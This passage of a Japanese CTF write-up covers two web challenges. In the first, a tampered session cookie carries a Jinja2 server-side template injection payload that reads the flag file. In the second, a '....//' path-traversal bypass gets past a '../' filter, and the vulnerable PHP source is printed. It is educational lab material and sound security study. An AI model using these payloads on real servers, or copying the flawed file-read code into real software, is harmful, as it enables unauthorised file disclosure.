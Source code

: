 テンプレートにそのまま `session['golem']` を突っ込んでいます。この前に `.` `_` `{` `}` を削除していますが、これはフォームから入力があった場合にのみ行われるため、セッションを直接改変した際には Server-Side Template Injection が可能となっています。

試しに先ほどのスクリプトで `{% raw %}{{ 1 + 2 }}{% endraw %}` を入力して出てきた文字列を Cookie にセットすると `Hello : 3` と表示されました。

SSTI を利用して `/opt/serverPython/golem/flag.py` が読めないか調べてみましょう。

[Exploring SSTI in Flask/Jinja2, Part II - nVisium Blog](https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii/) を参考に `{% raw %}{{ ''.__class__.__mro__[2].__subclasses__()[40]('flag.py').read() }}{% endraw %}` をセッションに入れるとフラグが得られました。

```
ASIS{I_l0v3_SerV3r_S1d3_T3mplate_1nj3ct1on!!}
```

## [Web 57] Mathilda

与えられた URL にアクセスすると、ソースに以下のようなコメントがありました。

```
<center><br><br>
    <h2>Welcome to home</h2>
    <p>This website has been developed and deployed by me. It's static web page and I'm working on new design.</p>
<img src=tilda.png height="400">

<!-- created by ~rooney -->
```

`/~rooney/` にアクセスするとソースは以下のようになっていました。

```html
<pre>
<center>
<h1>Welcome to rooney page</h1>
<img src=files/mathilda.jpg height="450"></img>

<a href='?path=rooney'>file</a>
```

`?path=rooney` にアクセスすると Wayne Mark Rooney さんのプロフィールが表示されました。画像の `src` から `files/` にアクセスするとファイルの一覧が表示されました。

```
[IMG]	mathilda.jpg	2017-09-08 08:44	55K	 
[   ]	rooney	2017-09-08 08:19	633	 
[IMG]	rooney.png	2016-10-24 04:46	316K	 
```

`files/rooney` にアクセスすると `?path=rooney` にアクセスした際と同じ文章が表示されました。どうやら `'files/' . $_GET['path']` を読んで出力しているようです。

`index.php` が読めないか `../index.php` にアクセスしてみましたが、何も表示されませんでした。`?path=roo../ney` にアクセスすると `?path=rooney` にアクセスした際と同じ表示になるため、どうやら `../` を削除しているようです。

`?path=....//index.php` にアクセスすると `index.php` の内容が取得できました。

```php
<?php

if(strstr($_GET['path'], 'flag')!==false)
    die('Security failed!');

echo file_get_contents('files/' . str_replace('../', '', $_GET['path']));

?>
```
